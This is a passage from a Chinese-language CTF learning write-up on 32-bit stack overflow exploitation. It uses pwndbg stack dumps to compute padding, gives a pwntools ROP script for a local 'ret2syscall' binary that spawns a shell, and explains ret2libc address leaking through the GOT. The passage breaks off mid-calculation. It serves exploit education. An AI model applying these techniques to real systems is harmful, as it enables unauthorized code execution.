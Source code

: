 利用gdb来计算需要填充的垃圾数据

> pwndbg> stack 40
> __00:0000│ esp  0xffffd120 —▸ 0xffffd13c ◂— 'AAAAAAAAAAAAA'__
> 01:0004│      0xffffd124 ◂— 0x0
> 02:0008│      0xffffd128 ◂— 0x1
> 03:000c│      0xffffd12c ◂— 0x0
> 04:0010│      0xffffd130 ◂— 0x1
> 05:0014│      0xffffd134 —▸ 0xffffd234 —▸ 0xffffd3e8 ◂— '/home/pwn/task/ret2syscall'
> 06:0018│      0xffffd138 —▸ 0xffffd23c —▸ 0xffffd403 ◂— 'SSH_AUTH_SOCK=/run/user/1000/keyring/ssh'
> __07:001c│ eax  0xffffd13c ◂— 'AAAAAAAAAAAAA'__
> ... ↓
> __22:0088│ ebp  0xffffd1a8 —▸ 0x8049630 (__libc_csu_fini) ◂— push   ebx__

计算地需要0xa8-0x3c+4的垃圾数据

```py
from pwn import *
io=process("./ret2syscall")
io.recv()
payload=b'a'*112+p32(0x080bb196)+p32(0xb)\
	  +p32(0x0806eb90)+p32(0)+p32(0)\
	  +p32(0x080be408)+p32(0x08049421)
io.sendline(payload)
io.interactive()
```

> task$ python3 ret2syscall.py 
> [+] Starting local process './ret2syscall': pid 2697
> [*] Switching to interactive mode
> $ ls
> BUUCTF_pwn1    linklist_first_part.py    ret2libc2      ret2syscall.py
> aaa1           linklist_second_part.py    ret2libc2.py      ret2text
> aaa1.py        pwn1            ret2libc3      shellcode

__success!__

## 漏洞3--ret2libc

## 3.1漏洞利用的思路

此漏洞建立在程序是动态链接的基础上，动态链接时，无法直接在原程序中找到所要用的各种函数，但被调用的函数都会在got表中有体现，且该函数被调用一次后，got表中的内容会变为在动态链接后的真实地址，我们可以利用这一点来得到函数的真实地址。此外，即使原程序中未使用system函数（下面的例子就是这种情况），即无法在got表中查到其真实地址，我们利用两个函数在libc文件中的相对距离和在elf文件中的相对距离保持不变这一点，先找到elf文件的got表中一个用过的函数的真实地址（下面的例子中利用的是puts函数），然后计算system函数和puts函数在libc文件中的相对距离计算得到真实地址。对于参数‘’/bin/sh"我们有两种实现的方法。一是直接在libc文件中利用elf.search的方法寻找，然后同理得到system函数的方法得到/bin/sh的真实地址。二是直接在原程序中找。注：sh\00也可以替代/bin/sh。

## 3.2漏洞利用的实现

利用gdb计算需要填充的垃圾数据的字长0x48-0x10+4=60

>pwndbg> stack 40
>00:0000│ esp    0xffffcff0 —▸ 0xffffd000 ◂— 0x41414141 ('AAAA')
>01:0004│        0xffffcff4 —▸ 0xffffd052 ◂— 0x41414141 ('AAAA')
>02:0008│        0xffffcff8 —▸ 0xffffd038 —▸ 0xffffd168 ◂— 0x0
>03:000c│        0xffffcffc —▸ 0xf7e3ab54 (fflush+132) ◂— add    esp, 0x10
>04:0010│ __eax__    0xffffd000 ◂— 0x41414141 ('AAAA')
>... ↓
>12:0048│ __ebp__    0xffffd038 —▸ 0xffffd168 ◂— 0x0
